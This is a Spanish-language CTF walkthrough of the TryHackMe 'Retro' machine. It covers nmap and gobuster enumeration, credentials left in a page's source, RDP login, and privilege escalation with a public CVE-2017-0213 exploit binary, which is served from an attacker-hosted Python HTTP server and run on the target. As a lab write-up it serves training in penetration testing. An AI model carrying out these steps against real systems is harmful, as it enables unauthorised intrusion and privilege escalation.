# Guía de Explotación - TryHackMe Retro

## 1. Reconocimiento

Iniciamos el reconocimiento con un escaneo de Nmap utilizando el siguiente comando:

```bash
nmap -sC -sV -Pn IP_MAQUINA_ATACADA
```



El escaneo revela los siguientes puertos abiertos:
- **80/TCP** (HTTP - Servidor Web IIS)
- **3389/TCP** (RDP - Escritorio Remoto)

Al acceder al puerto **80**, encontramos la página predeterminada de IIS.



---

### 2.Enumeración de directorios con Gobuster

Utilizamos `gobuster` para descubrir directorios ocultos en el servidor web:

```bash
gobuster dir -u http://IP_MAQUINA_ATACADA/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```



El escaneo revela los siguientes directorios:
- /retro

Si entramos vemos que tenemos un nombre de usuario, el cual es el que ha publicado todo.



```txt
Wade
```

Investigando un poco mas vemos una publicación con información potencialmente útil.



Ya que al hacer clic en la publicación "Ready Player One", encontramos un comentario en el código fuente con una posible credencial.



```txt
parzival
```

---

### 3.Acceso mediante RDP

Usamos **Remmina** para conectarnos a la máquina víctima con las credenciales encontradas:

```txt
Usuario: Wade
Contraseña: parzival
```

Una vez dentro, accedemos al archivo `user.txt` y encontramos la primera flag:



---

## 4. Escalada de Privilegios

Buscando un poco de informacion del sistema, usando el comando `systeminfo`, vemos la version del sistema operativo.



Si buscamos `10.0.14393 N/A Build 14393` en Google, econtramos que tiene una gran vulneravilidad, la cual se explica en el [CVE-2017-0213](https://nvd.nist.gov/vuln/detail/CVE-2017-0213)

Por lo que buscamos como explotarla y encontramos un repositorio de [Github](https://github.com/Anonymous-Family/CVE-2017-0213), el cual te da un .zip y una explicacion de como explotarlo.

Por lo que lo descargamos con un `git clone`

```bash
git clone https://github.com/Anonymous-Family/CVE-2017-0213.git
```



Ahora descomprimimos el archivo `CVE-2017-0213_x64.zip`, ya que en el comando anterior de `systeminfo` vimos que era el tipo de sistema que usaba.

```bash
unzip CVE-2017-0213_x64.zip
```


Esto nos dara un `.exe` que debemos de ejecutar en la maquina windows, por lo que vamos a montar un servidor con python3 en nuestro kali, para luego acceder desde el windows y descargarlo.

```bash
python3 -m http.server 8080
```



Lo descargamos y lo ejecutamos.



Cuando lo ejecutamos nos abrira una terminal con permisos de adminsistrador.



Buscaremos la flag del root, la cual se encuentra en su escritorio, por lo que accedemos y la visualizamos.

```bash
cd C:\Users\Administrator\Desktop
more root.txt.txt
```



¡Máquina comprometida con éxito!